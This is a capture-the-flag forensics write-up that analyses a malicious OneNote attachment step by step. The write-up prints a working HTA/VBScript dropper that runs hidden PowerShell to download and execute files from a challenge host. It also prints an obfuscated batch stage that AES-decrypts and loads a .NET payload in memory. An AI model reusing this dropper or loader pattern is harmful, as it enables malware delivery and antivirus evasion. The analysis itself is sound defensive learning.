





# [Cyber Apocalypse 2023](index.md) - Forensics - Relic Maps

> Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).

We're provided with a spawnable docker container, and the above instructions to download a file from it.

The file has a `.one` file extension, which is typical of __OneNote__ files.

Downloading this file in Windows instantly triggers antivirus, so lets download it on a Linux system first.

```
$ wget http://167.172.50.208:31172/relicmaps.one
--2023-03-22 19:27:46--  http://167.172.50.208:31172/relicmaps.one
Connecting to 167.172.50.208:31172... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59760 (58K) [application/octet-stream]
Saving to: ‘relicmaps.one’

relicmaps.one.2               100%[=================================================>]  58.36K   237KB/s    in 0.2s

2023-03-22 19:27:47 (237 KB/s) - ‘relicmaps.one’ saved [59760/59760]
```
First thing I try is to `unzip` it, thinking that perhaps OneNote files work like other OpenDocument style files that Microsoft Office use. Of course they don't - and why would they, but it was worth a shot.

Second thing I try is to run `cat` against the file to see if theres any obvious way that I can start slicing it up (without having to do a ton of internet resarch on OneNote files - I don't like OneNote enough to dedicate that kind of time to it). The output does not look promising, so onto the next thing.

Third thing I tried was to run `strings` against it.

```
$ strings relicmaps.one
```

There is predictably a lot of garbage in the output, but this stands out:

```vb
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine )
    Dim objConfig
    Dim objProcess
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL )
    Dim procId
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
            ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
Close
</script>
</head>
<body>
</body>
</html>"
```

That sure looks like malware. It's downloading two additional files from the server - `/uploads/soft/topsecret-maps.one` and `/get/DdAbds/window.bat`. I download them both to analyze them.

```
wget http://167.172.50.208:31172/get/DdAbds/window.bat
```

There's another `.one` file, and a `.bat` file.

I do the exact same steps as above on the new `.one` file, and find an almost identical dropper in the file, though the domains look more like legit domains rather than CTF domains. I try to download the files that they refer to, but get 404 errors - so I decide to move on to the batch file and come back to this file if I need to.

The batch file is ... interesting.



There are over 300 lines of this, with two notable differences. In the middle somewhere there is a "double-colon-comment" containing a blob of something that appears to be either base64 encoded or encrypted (or both).



Base64 decoding it is not fruitful, but I bet we'll come back to this later.
At the bottom of the file there is some additional code as well.



In the first section of this file, I can see that it's `set`ting a lot of variables to really short strings, and at the bottom it seems to be stitching them all together, as evidenced by all the `%` symbols. This obfuscates the code making it much harder to figure out what's happening, and I'll need to decode it to get any farther.

Being a C# developer, I decided to write a small console program to decode this.
I used VSCode to isolate all the "environment variable setting" lines of the code and adjust them so that they were represented as key-value pairs. I put these in a new file that I named `env_vars.txt`.

```
"ualBOGvshk=ws"
"PxzdwcSExs= /"
"ndjtYQuanY=po"
"cHFmSnCqnE=Wi"
"CJnGNBkyYp=co"
"jaXcJXQMrV=rS"
"nwIWiBzpbz=:\"
"xprVJLooVF=Po"
"tzMKflzfvX=0\"
"VCWZpprcdE=1."
"XzrrbwrpmM=\v"
"BFTOQBPCju=st"
"WmUoySsDby=he"
(over 300 more lines of this)
```

I should have also removed the quotation marks at the start and end of each line, but forgot to, and it was easier to just account for this in my code than remove them, because I would end up removing some "legit" double-quotes if I just used find-and-replace.

I also reformatted the code at the bottom using VSCode, removing the percent symbols and putting each variable on it's own line. I named this file `payload.txt`.

```
CJnGNBkyYp
UBndSzFkbH
ujJtlzSIGW
nwIWiBzpbz
cHFmSnCqnE
kTEDvsZUvn
JBRccySrUq
ZqjBENExAX
XBucLtReBQ
BFTOQBPCju
vlwWETKcZH
NCtxqhhPqI
GOPdPuwuLd
YcnfCLfyyS
JPfTcZlwxJ
(over 300 more lines of this)

```

Then I wrote some C# code that would read in the first file and create a dictionary of values - random variable names on one side, and that variable's value on the right. The script could then go through the payload and replace the variables with their values, and hopefully we'll get something resembling either code or english.

```cs
using System.Text;

Dictionary<string, string> malware_dictionary = new Dictionary<string, string>();

foreach(string line in File.ReadAllLines("./env_vars.txt")) {
    // Find the first '=' - anything to the left is the key, to the right is the value
    int first_equals_sign = line.IndexOf('=');
    string key = line.Substring(1,first_equals_sign-1); // I forgot to remove the quotation marks in the file
    string value = line.Substring(first_equals_sign+1, line.Length-first_equals_sign-2);
    malware_dictionary.Add(key, value);
}

// Now that we have a "key" we can decode the rest.
StringBuilder output = new StringBuilder();
foreach(string line in File.ReadAllLines("./payload.txt")) {
    if (!string.IsNullOrEmpty(line)) {
        if (malware_dictionary.ContainsKey(line)) {
            output.Append(malware_dictionary[line]);
        } else {
            Console.WriteLine("Not found in malware dictionary: " + line);
        }
    }
}
Console.WriteLine("-------------------");

Console.WriteLine(output.ToString());
```

```
> dotnet run
Not found in malware dictionary: cls
-------------------
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "%~0.exe"cd "%~dp0""%~nx0.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```
There was a single `cls` in the middle of the encoded payload that I just ignored - it was a legit `cls` command, but since it wouldn't have a corresponding value in the dictionary, and could just be ignored. Thankfully that's the only value not found in my dictionary.

So, this looks like _another_ malware payload of some sort. I spent some time reformatting it to make it easier to read.
They use an interesting method of obfuscation that I didn't realize was a thing:

```
'gnirtS46esaBmorF'[-1..-16]
```
```
FromBase64String
```
This apparently allows you to write commands backwards... I did not realize you could do this.

My manually prettified version of the above code (with backwards sections un-backwardsed):

```powershell
$eIfqq = [System.IO.File]::('ReadAllText' -join '')('%~f0').Split([Environment]::NewLine);

foreach ($YiLGW in $eIfqq) {
    if ($YiLGW.StartsWith(':: ')) {
        $COMMENT_PAYLOAD = $YiLGW.Substring(3);
        break;
    };
};

$COMMENT_PAYLOAD_UNB64ED = [System.Convert]::('FromBase64String' -join '')($COMMENT_PAYLOAD);
$BacUA = New-Object System.Security.Cryptography.AesManaged;
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$BacUA.Key = [System.Convert]::('FromBase64String' -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$BacUA.IV = [System.Convert]::('FromBase64String' -join '')('2hn/J717js1MwdbbqMn7Lw==');

$Nlgap = $BacUA.CreateDecryptor();
$COMMENT_PAYLOAD_UNB64ED = $Nlgap.TransformFinalBlock($COMMENT_PAYLOAD_UNB64ED, 0, $COMMENT_PAYLOAD_UNB64ED.Length);
$Nlgap.Dispose();
$BacUA.Dispose();
$mNKMr = New-Object System.IO.MemoryStream(, $COMMENT_PAYLOAD_UNB64ED);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$COMMENT_PAYLOAD_UNB64ED = $bTMLk.ToArray();
$gDBNO = [System.Reflection.Assembly]::('Load' -join '')($COMMENT_PAYLOAD_UNB64ED);
$PtfdQ = $gDBNO.EntryPoint;
$PtfdQ.Invoke($null, (, [string[]] ('%*')))

```

I've renamed some variables to make it easier to understand what it's doing.
Looks like it's decrypting some AES, and we have a key and an IV.
Near the top it seems to be extracting that double-colon comment from earlier (`COMMENT_PAYLOAD`) and then base64 decoding it (`COMMENT_PAYLOAD_UNB64ED`), then decrypting it using AES, _then_ decompressing it with GZip (GUnzip).

I don't see any flags here, so lets go play with CyberChef to decrypt this. CyberChef lets us chain operations together, which will be very handy here.



This took some tinkering to get it right.
 - The first thing the script does is base64 decode it, so we need __From Base64__.
 - It's then AES decrypted. Thankfully we have the key and IV from the script, already in base64 format, and CyberChef accepts base64 for these which saves us a lot of time.
 - The script then uncompreses the file with GZip, so we need to a __GUnzip__.
 - Now we start to see some english characters, though still a lot of garbage.
 - __Remove null bytes__ cleans up quite a bit of the garbage, and lets us look through the file more easily.
 - There's a section with _another_ payload? _I hope this doesn't download yet another OneNote file..._ Thankfully this one includes our flag.



```
HTB{0neN0Te?_iT'5_4_tr4P!}
```
I couldn't agree more, flag.